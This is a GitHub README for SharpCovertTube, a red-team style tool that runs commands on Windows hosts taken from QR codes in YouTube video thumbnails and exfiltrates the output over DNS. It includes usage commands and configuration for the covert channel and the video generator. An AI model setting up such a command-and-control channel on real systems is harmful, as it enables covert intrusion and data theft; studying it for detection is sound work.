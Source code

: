 # SharpCovertTube

A program to control Windows systems remotely by uploading videos to Youtube, using C# for the listener and Python to create the videos. The QR codes can be in cleartext or AES-encrypted values.


## Usage

Run the listener in your Windows system:

```
SharpCovertTube.exe
```

The listener will check the Youtube channel every 120 seconds (by default) until a new video is uploaded. In this case we upload "whoami.avi" from the folder [example-videos](https://github.com/ricardojoserf/SharpCovertTube/tree/main/example-videos):

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/sharpcoverttube/Screenshot_1.png)

After finding there is a [new video](https://www.youtube.com/shorts/-JcDf4pF0qA) in the channel, it gets the QR code from the video thumbnail:

![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/sharpcoverttube/Screenshot_2.png)

The QR is decoded, the command is executed and the response is base64-encoded and exfiltrated using DNS:

![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/sharpcoverttube/Screenshot_3.png)

This works also for QR codes with AES-encrypted payloads and longer command responses. In this example, the file "dirtemp_aes.avi" from [example-videos](https://github.com/ricardojoserf/SharpCovertTube/tree/main/example-videos) is uploaded and the content of c:\temp is exfiltrated using several DNS queries:

![img4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/sharpcoverttube/Screenshot_4.png)

-------------------

## Configuration

- **channel_id** (Mandatory!!!): Get your Youtube channel ID from [here](https://www.youtube.com/account_advanced).
- **api_key** (Mandatory!!!): To get the API key create an application and generate the key from [here](https://console.cloud.google.com/apis/credentials).
- **payload_aes_key** (Optional. Default: "0000000000000000"): AES key for decrypting QR codes (if using AES). It must be a 16-characters string.
- **payload_aes_iv** (Optional. Default: "0000000000000000"): IV key for decrypting QR codes (if using AES). It must be a 16-characters string.
- **seconds_delay** (Optional. Default: 120): Seconds delay until checking if a new video has been uploaded.
- **dns_hostname** (Optional. Default: ".test.org"): DNS hostname to exfiltrate the response from commands executed in the system.

----------------------------------

## Generating videos with QR codes

You can generate the videos from Windows using Python3. For that, first install the dependencies:

```
pip install Pillow opencv-python pyqrcode pypng pycryptodome rebus
```

Then run the generate_video.py script:

```
python generate_video.py -t TYPE -f FILE -c COMMAND [-k AESKEY] [-i AESIV]
```

- TYPE (-t) must be "qr" for payloads in cleartext or "qr_aes" if using AES encryption.

- FILE (-f) is the path where the video is generated.

- COMMAND (-c) is the command to execute in the system.

- AESKEY (-k) is the key for AES encryption, only necessary if using the type "qr_aes". It must be a string of 16 characters and the same as in Program.cs file in SharpCovertTube.

- AESIV (-i) is the IV for AES encryption, only necessary if using the type "qr_aes". It must be a string of 16 characters and the same as in Program.cs file in SharpCovertTube. 


### Examples

Generate a video with a QR value of "whoami" in cleartext in the path c:\temp\whoami.avi:

```
python generate_video.py -t qr -f c:\temp\whoami.avi -c whoami
```

Generate a video with an AES-encrypted QR value of "dir c:\windows\temp" with the key and IV "0000000000000000" in the path c:\temp\dirtemp_aes.avi:

```
python generate_video.py -t qr_aes -f c:\temp\dirtemp_aes.avi -c "dir c:\windows\temp" -k 0000000000000000 -i 0000000000000000
```
<br>

![img5](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/sharpcoverttube/Screenshot_5.png)


---------------------------


## Notes

- File must be 64 bits. This is due to the code used for QR decoding, which is from [Stefangansevles](https://github.com/Stefangansevles)'s project [QR-Capture](https://github.com/Stefangansevles/QR-Capture)

- This project is a port from [covert-tube](https://github.com/ricardojoserf/covert-tube), a project I developed in 2021 using just Python, which was inspired by Welivesecurity blogs about [Casbaneiro](https://www.welivesecurity.com/2019/10/03/casbaneiro-trojan-dangerous-cooking/) and [Numando](https://www.welivesecurity.com/2021/09/17/numando-latam-banking-trojan/) malwares.

